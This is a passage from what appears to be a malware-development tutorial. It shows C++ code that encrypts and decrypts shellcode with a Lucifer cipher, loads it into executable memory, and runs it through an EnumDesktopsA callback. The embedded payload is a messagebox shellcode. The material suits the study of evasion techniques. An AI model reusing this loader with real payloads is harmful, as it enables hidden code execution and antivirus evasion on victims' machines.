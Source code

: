 ```cpp
  printf("\n\n");

  // encrypt the payload
  lucifer_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // decrypt the payload
  lucifer_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As usually, I used `meow-meow` messagebox payload here:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```
